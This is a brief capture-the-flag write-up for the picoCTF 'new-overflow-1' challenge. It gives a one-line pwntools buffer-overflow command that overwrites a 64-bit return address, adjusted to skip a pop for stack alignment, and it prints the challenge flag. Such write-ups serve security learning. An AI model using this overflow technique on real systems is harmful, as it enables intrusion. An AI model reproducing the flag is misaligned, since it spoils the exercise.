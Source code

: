 # new-overflow-1

## Problem

## Solution

essentially the same as basic 32 bit exploit, but you need to format as 8 byte values for 64 bit systems.

_target address = 0x400767_

Due to some messed up ubuntu quirk (seriously, how the f are we supposed to know that?) skip the first `pop` instruction:

_new target address = 0x400768_

```
python -c "from pwn import *; print 'A'*72+p64(0x400768)" | ./vuln
```

**Flag: picoCTF{th4t_w4snt_t00_d1ff3r3nt_r1ghT?\_1a8eb93a}**

uh huh. right. this was an exercise in insanity.
